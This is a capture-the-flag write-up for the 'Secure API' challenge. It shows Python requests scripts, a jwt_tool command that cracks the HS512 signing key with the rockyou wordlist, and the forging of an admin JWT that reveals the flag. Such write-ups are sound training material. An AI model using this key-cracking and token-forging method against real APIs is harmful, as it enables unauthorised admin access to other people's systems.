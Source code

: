 # Secure API
```
Frontend is overrated! API rocks! http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/
```
# Solution

```python
import requests

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'en-US,en;q=0.9'
}

data = {
    'username':'guest',
    'password':'guest'
}

response = requests.post('http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/', headers=headers, data=data,  verify=False)
print(response.text)
```
will give us a token `{"Token":"Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMzYzMzg4fQ.GH_z59jLA2N_ZdWHFmsjp4vQ1t8vIugdBGgxC7E8Gy0ba9tiocm7mLsHlPulo_dN2198Ux1E3knw4Ip1BNuD7Q"}` This can be put in a header to log in:

```python
import requests

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'en-US,en;q=0.9',
    'Authorization':'Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMzY2MTA2fQ.JXcYsU7BHg-8X2bzjXrIxDbsXEL4gEc1OOrAmmVAxvAySUyxcHvVNZKoQWb_D2uH-V2-OFpo-382OiPurnKxEA'
}

data = {
    'username':'guest',
    'password':'guest'
}

response = requests.get('http://dctf1-chall-secure-api.westeurope.azurecontainer.io:8080/', headers=headers, data=data,  verify=False)
print(response.text)
```

this gives us `{"Message":"Hi, guest! You are not admin, I have no secret for you."}`. Lets edit the token! Putting it into Jwt_tool.py:
```python
=====================
Decoded Token Values:
=====================

Token header values:
[+] typ = "JWT"
[+] alg = "HS512"

Token payload values:
[+] username = "guest"
[+] exp = 1621366106    ==> TIMESTAMP = 2021-05-18 20:28:26 (UTC)

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------
```
To tamper with it, we need a token. running `python3 jwt_tool.py 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMzY2MTA2fQ.JXcYsU7BHg-8X2bzjXrIxDbsXEL4gEc1OOrAmmVAxvAySUyxcHvVNZKoQWb_D2uH-V2-OFpo-382OiPurnKxEA' -C -d /opt/rockyou.txt` gives us the token: `[+] 147852369 is the CORRECT key!`. 

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjIxMzY2MTA2fQ.3J6da0lNgnQDI4EV37Og1ScqWZFb-fea0c1oIQ3wdRXfRGNMoAf3yQhHzX26fkUEgCS--z0adx5Mvsmc4WW-Xg` is our final token

Running 
```bash
python3 jwt_tool.py 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjIxMzY2MTA2fQ.JXcYsU7BHg-8X2bzjXrIxDbsXEL4gEc1OOrAmmVAxvAySUyxcHvVNZKoQWb_D2uH-V2-OFpo-382OiPurnKxEA' -T -S hs512 -p "147852369"
```
Lets us change the value of `gust` to `admin`

# Flag: dctf{w34k_k3y5_4r3_n0t_0k4y}



